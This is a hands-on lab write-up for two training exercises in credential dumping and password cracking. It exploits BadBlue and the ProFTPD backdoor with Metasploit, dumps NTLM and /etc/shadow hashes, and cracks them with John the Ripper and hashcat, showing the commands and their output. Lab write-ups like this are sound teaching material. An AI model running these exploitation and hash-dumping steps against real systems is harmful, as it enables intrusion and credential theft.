





# 🔬Cracking Hashes

## Lab 1 - Windows

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> - Target IP: `10.2.24.37`
> - **NTLM Hashes dumping and cracking**

### Enumeration & Exploitation

```bash
nmap -sV -p 80 10.2.24.37
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
get privs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.
- Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack_windows) module can be used to brute-force the hashes.

#### JohnTheRipper

- In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - *Open Source password security auditing and password recovery tool available for many operating systems*

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```



- Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Hashcat

[**`hashcat`**](https://hashcat.net/hashcat/) - *Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms*

- Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```



- Try RDP login

```bash
xfreerdp /u:Administrator /p:password /v:10.2.24.37
```


<details>
<summary>Reveal Flag - Administrator's Password is: 🚩</summary>


`password`


</details>


<details>
<summary>Reveal Flag - bob's Password is: 🚩</summary>


`password1`


</details>

------

## Lab 2 - Linux

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> - Target IP: `192.22.107.3`
> - **Password Hashes dumping and cracking**
> - Same lab as the [🔬Hashes Dumping lab](../1-system-attack/linux-attacks/creds-dump-unix.md)

### Enumeration & Exploitation

```bash
ip -br -c a
	192.22.107.2/24
```

```bash
nmap -sV 192.22.107.3
```

```bash
21/tcp open  ftp  ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> - `$6` = the hashing algorithm is **SHA-512**


- An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```



```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

- Exit `MSFconsole`

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_linux](auxiliary/analyze/crack_linux) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](../1-system-attack/linux-attacks/creds-dump-unix.md).

#### JohnTheRipper

- In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



#### Hashcat

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt
```




<details>
<summary>Reveal Flag - "root" user's password is: 🚩</summary>


`password`


</details>

------

